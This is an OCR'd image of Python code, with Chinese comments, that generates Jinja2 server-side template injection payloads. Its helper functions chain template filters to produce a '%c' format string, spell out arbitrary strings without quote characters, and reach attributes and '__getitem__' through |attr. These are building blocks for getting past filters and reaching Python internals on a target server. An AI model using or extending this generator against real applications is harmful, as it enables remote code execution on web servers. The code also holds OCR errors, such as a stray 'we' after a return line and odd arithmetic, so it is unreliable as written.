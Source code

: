			  d = {
			      "ltr": 178,
			      "lel": 131,
			      "bs": 65,
			      "zb": 26,
			      "b": 6,
			      "l": 1,
			  }
			  
			  # 生成任意数字
			  def number(n):
			      assert 178 >= n
			      now = 178/n
			      ans = ["ltr", ]
			      for k, v in d.items():
			          while now >= v:
			              now -= v
			              ans.append(k)
			      return "-".join(ans)
			  
			  # 生成%c
			  def percent_sign_lower_c():
			      return "(cycler|pprint|list|pprint|urlencode|batch(%s)|first|join|batch(%s)|list|last|reverse|join|lower)" % (
			          number(10),
			          number(8),
			      )we
			  
			  # 生成任意字符串
			  def string(s):
			      return "{}*({})%({})".format(
			          percent_sign_lower_c(),
			          number(len(s)),
			          ",".join([number(ord(c)) for c in s])
			      )
			  
			  # 获取任意参数
			  def attr(name):
			      return "|attr(%s)" % string(name)
			  
			  # 获取任意物品
			  def item(name):
			      return "|attr(%s)(%s)" % (
			          string("__getitem__"),
			          string(name)
			      )
			  